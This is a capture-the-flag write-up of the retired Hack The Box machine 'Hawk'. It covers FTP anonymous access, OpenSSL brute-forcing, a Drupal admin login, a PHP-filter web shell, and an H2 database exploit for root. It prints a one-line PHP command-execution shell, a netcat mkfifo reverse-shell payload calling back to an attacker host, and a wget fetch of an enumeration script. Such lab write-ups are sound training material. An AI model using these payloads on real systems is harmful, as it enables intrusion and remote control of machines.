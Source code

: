```yaml
---
title: Hawk Hackthebox Writeup
date: 2021-01-28 04:00:00 +0800
categories: [Hackthebox, Retired]
tags: [linux,h2 exploit,drupal,ftp anonymous,php filter module]     # TAG names should always be lowercase
image: /assets/img/hawk-hackthebox/hawk-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Hawk:~$


Column | Details
------------ | -------------
Name | Hawk
IP | 10.10.10.102
Points | 30
Os | Linux
Difficult | Medium
Creator | [mrh4sh](https://www.hackthebox.eu/home/users/profile/2570)
Out on | 14th July 2018

# Summary:~$

* Discovering the new host and scanning for open ports.
* Decrypting a file found by logging into `ftp` using *anonymous*:*anonymous*.
* Logging into the `drupal` cms.
* Getting reverse shell using the `php filter` module.
* Escalating privileges using `h2` exploit.

# Starting:~$

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Download link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/hawk-hackthebox/nmap-automator-1.png)

Full port scan using `nmap`: *nmap -p- -T4 -Pn -sV 10.10.10.102*

___
![](/assets/img/hawk-hackthebox/nmap-scan-1.png)

Let's check `Port 80`.

___
![](/assets/img/hawk-hackthebox/port-80-2.png)

It's a `drupal` webiste, let's check **/robots.txt**.

___
![](/assets/img/hawk-hackthebox/robots-txt-3.png)

I further accessed `http://10.10.10.102/CHANGELOG.txt` and found *drupal version* i.e. `Drupal 7.58`.

___
![](/assets/img/hawk-hackthebox/version-exposed-drupal-4.png)

I found an [exploit](https://www.exploit-db.com/exploits/44542) when googled the version vulnerabilities.

___
![](/assets/img/hawk-hackthebox/drupalexploitdb-5.png)

But it requires authentication of the user for that, let's check default credentials first on the login page. It didn't work.

`Port 21` is also open, let's try to login anonymously i.e. `anonymous`:`anonymous`.

___
![](/assets/img/hawk-hackthebox/ftp-anonymous-login-6.png)

We found a file in the directory, let's downloading it using the `get` command.

___
![](/assets/img/hawk-hackthebox/got-afile-7.png)

I opened the file and it looked like this:

___
![](/assets/img/hawk-hackthebox/opening-the-file-8.png)

As we know it's encrypted I ran `file` command on it to check for more details.

___
![](/assets/img/hawk-hackthebox/file-category-8.png)

It's a `openssl` and `base64` encrypted.

Let's decode it with base64 first.

**Command**: `cat .drupal.txt.enc | base64 --decode > drupal.txt.enc.decoded`

Now let's bruteforce the openssl file.

**Command**: *sudo apt-get install bruteforce-salted-openssl*

**Command**: *bruteforce-salted-openssl -f /usr/share/wordlists/rockyou.txt drupal.txt.enc.decoded*

We were unable to find the password but it showed that `sha` is `256`.

___
![](/assets/img/hawk-hackthebox/ssl-brute-force-error-9.png)

Improvising the **command**: *bruteforce-salted-openssl -d sha256 -f /usr/share/wordlists/rockyou.txt drupal.txt.enc.decoded*

We found the password as `friends`.

___
![](/assets/img/hawk-hackthebox/got-password-10.png)

Decoding the file

**Command**: *openssl aes-256-cbc -d -in drupal.txt.enc.decoded -out drupal.txt*

The digest is `SHA256` and cipher used is `AES-256-CBC` because that’s the default cipher that the program uses if it’s not specified

![](/assets/img/hawk-hackthebox/decoding-file-11.png)

We got a username and password as `Daniel`:`PencilKeyboardScanner123`.

___
![](/assets/img/hawk-hackthebox/got-new-username-password-12.png)

Let's try to login on the website using the above found credentials.

___
![](/assets/img/hawk-hackthebox/error-screenshot-13.png)

It threw me an error saying `invalid` credentials.

Let's try `admin`:`PencilKeyboardScanner123`. Successfully logged in.

___
![](/assets/img/hawk-hackthebox/loggedin-14.png)

Now in the `module` section turn on the `PHP filter`.

___
![](/assets/img/hawk-hackthebox/turn-on-php-filter-15.png)

Add a new content and add the following in the body --> `<?php system($_GET['cmd']); ?>`. Make sure to save the file with php.

___
![](/assets/img/hawk-hackthebox/add-php-content-16.png)

Accessing *http://10.10.10.102/node/1?cmd=whoami*, we got `www-data`.

___
![](/assets/img/hawk-hackthebox/command-execution-17.png)

Now let's go for the reverse shell, I used BurpSuite for it.

Check this for the [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#ncat)

**Payload Used**: *rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.X.X 4242 >/tmp/f*

___
![](/assets/img/hawk-hackthebox/got-shell-18.png)

Got `User` Flag.

Let's send `LinEnum.sh` for escalating privileges.

**Hosting Command**: *python3 -m http.server 8081*

**wget command**: *wget http://10.10.X.X:8081/LinEnum.sh*

Ran LinEnum.sh after giving executing permissions using *chmod +x LinEnum.sh* and found this

___
![](/assets/img/hawk-hackthebox/linenum-result-19.png)

As we know `Port 8082` is running **H2 Database**, and it only allows connections locally.

___
![](/assets/img/hawk-hackthebox/port-8082-20.png)

I search for some exploits and found [this](https://www.exploit-db.com/exploits/45506)

Downloading the exploit to our victim machine using wget, and executing it we got `Root`.

____
![](/assets/img/hawk-hackthebox/got-root-21.png)

